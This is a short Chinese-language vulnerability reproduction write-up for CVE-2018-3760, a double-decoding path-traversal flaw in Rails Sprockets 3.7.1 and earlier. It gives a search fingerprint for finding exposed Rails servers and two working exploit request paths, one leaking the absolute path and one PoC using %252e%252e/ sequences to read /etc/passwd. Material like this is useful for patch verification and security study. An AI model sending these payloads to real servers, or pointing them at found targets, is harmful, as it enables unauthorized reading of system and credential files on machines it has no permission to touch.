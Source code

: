 # Rails sprockets 任意文件读取漏洞 CVE-2018-3760

# Rails sprockets 任意文件读取漏洞 CVE-2018-3760

## 漏洞描述

Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On Rails是著名Ruby Web开发框架，Sprockets是编译及分发静态资源文件的Ruby库。

Sprockets 3.7.1及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用%252e%252e/来跨越到根目录，读取或执行目标服务器上任意文件。

## 漏洞影响

```
Sprockets < 3.7.1
```

## 网络测绘

```
title="Ruby On Rails"
```

## 漏洞复现

主页面

![image-20220628111456281](/images/202206281114422.png)

先获取绝对路径

```
/assets/file:%2f%2f/etc/passwd
```

![image-20220628111516877](/images/202206281115997.png)

再利用POC读取文件

```
/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

![image-20220628111532098](/images/202206281115231.png)

